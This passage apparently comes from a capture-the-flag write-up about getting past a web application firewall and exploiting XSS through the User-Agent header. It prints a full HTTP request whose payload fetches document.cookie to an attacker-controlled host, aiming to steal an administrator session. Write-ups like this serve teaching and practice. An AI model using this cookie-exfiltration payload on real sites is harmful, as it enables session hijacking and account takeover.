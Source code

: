 # WAF
Certain requests were blocked while testing. WAF is blocking anything with malicious characters. The output was interesting because it returned user controlled input. I tested various SSTI payloads and nothing of value was returned. XSS payloads worked when delivered within the user agent of the request.

Since there is a dashboard endpoint that requires a valid session and a way to deliver XSS payloads that strongly hints towards cookie stealing for the next step.

![a1541a0386891fe7ce2b3af5d6f783bf.png](/assets/img/a1541a0386891fe7ce2b3af5d6f783bf.png)

# XSS via User-Agent

The WAF blocked a good variety of XSS payloads. The below request was not blocked by the WAF. 

```
POST /support HTTP/1.1
Host: 10.10.11.8:5000
User-Agent: <img src=x onerror=fetch('http://10.10.14.21/'+document.cookie);>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://10.10.11.8:5000
Connection: close
Referer: http://10.10.11.8:5000/support
Cookie: is_admin=true
Upgrade-Insecure-Requests: 1

fname=test&lname=test&email=test%40test.com&phone=test&message=<> 
```
